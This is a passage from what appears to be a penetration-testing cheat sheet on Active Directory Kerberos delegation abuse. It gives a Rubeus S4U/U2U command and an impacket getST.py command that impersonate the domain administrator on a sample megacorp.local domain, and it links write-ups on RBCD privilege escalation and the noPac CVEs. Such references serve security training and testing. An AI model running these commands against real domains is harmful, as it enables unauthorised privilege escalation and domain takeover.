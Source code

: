 The steps detailed on [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users) can be followed.
{% endtab %}
{% endtabs %}



### Automatization

- [https://github.com/GhostPack/Rubeus/pull/137](https://github.com/GhostPack/Rubeus/pull/137)

```
PS > .\Rubeus.exe s4u /u2u /user:j.doe /rc4:fc525c9683e8fe067095ba2ddc971889 /impersonateuser:administrator /msdsspn:host/SRV01.megacorp.local /altservice:http /createnetonly:C:\Windows\System32\cmd.exe /show
```




## RBCD for PrivEsc

- [https://exploit.ph/delegate-2-thyself.html](https://exploit.ph/delegate-2-thyself.html)
- [https://exploit.ph/revisiting-delegate-2-thyself.html](https://exploit.ph/revisiting-delegate-2-thyself.html)
- [https://www.praetorian.com/blog/red-team-privilege-escalation-rbcd-based-privilege-escalation-part-2/](https://www.praetorian.com/blog/red-team-privilege-escalation-rbcd-based-privilege-escalation-part-2/)
- [https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation/](https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation/)
- [https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#dcsync](https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#dcsync)

```
$ getST.py megacorp.local/'PC01$' -hashes :`pypykatz crypto nt 'Passw0rd!'` -dc-ip 192.168.1.11 -impersonate administrator -altservice CIFS/PC01.megacorp.local -self
```



### sAMAccountName Spoofing (noPac)

**CVE-2021-42278, CVE-2021-42287**

- [https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [https://exploit.ph/more-samaccountname-impersonation.html](https://exploit.ph/more-samaccountname-impersonation.html)
- [https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
- [https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/](https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/)
- [https://github.com/cube0x0/noPac](https://github.com/cube0x0/noPac)
- [https://gist.github.com/S3cur3Th1sSh1t/0ed2fb0b5ae485b68cbc50e89581baa6](https://gist.github.com/S3cur3Th1sSh1t/0ed2fb0b5ae485b68cbc50e89581baa6)
- [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)
